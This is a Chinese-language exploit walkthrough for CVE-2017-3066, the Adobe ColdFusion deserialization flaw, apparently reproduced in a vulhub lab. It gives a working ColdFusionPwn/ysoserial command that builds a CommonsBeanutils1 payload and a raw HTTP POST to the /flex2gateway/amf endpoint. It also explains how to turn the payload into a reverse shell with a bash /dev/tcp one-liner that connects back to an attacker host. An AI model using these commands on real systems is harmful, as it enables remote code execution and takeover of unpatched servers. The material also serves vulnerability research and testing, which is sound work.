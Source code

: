 # （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Adobe ColdFusion/CVE-2017-3066.html](http://book.iwonder.run/0day/Adobe ColdFusion/CVE-2017-3066.html)

## 一、漏洞简介

## 二、漏洞影响

Adobe ColdFusion (2016 release) Update 3 及之前的版本，

ColdFusion 11 Update 11 及之前的版本，

ColdFusion 10 Update 22 及之前的版本。

## 三、复现过程

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成 POC。 [点击下载 ColdFusionPwn](../../download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

> ## Usage
> 
> ```
> java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile] 
> ```

[点击下载 ysoserial](../../download/ysoserial.zip) 【注意】下载的 jar 包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser 
```

生成 poc.ser 文件后，将 POC 作为数据包 body 发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type 为`application/x-amf`

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...] 
```

![image](img/3ba9de2f33f6da2fbd40c11b5c4d778d.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从 Notepad++/Notepad 里面复制粘贴为 body 部分，是不成功的，即使返回的状态码是 200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件

![image](img/fa8c199cc39f3b02c505fa7f8f549474.png)

再到`Raw`界面添加 HTTP 头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存

![image](img/10867e6b9707853ad7508bf76171e05c.png)

进入容器中，发现`/tmp/success`已成功创建：

![image](img/03736e49075a670dc524d41f5a681ac6.png)

将 POC 改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到 shell：

![image](img/f0d8ec9994590e3548f19b32ddd555d3.png)

补充一下反弹 shell 的命令,可以通过[http://www.jackson-t.ca/runtime-exec-payloads.html 在线转换](http://www.jackson-t.ca/runtime-exec-payloads.html 在线转换)

```
bash -i >& /dev/tcp/ip/port 0>&1 
```

## 参考链接

> [https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/](https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/)

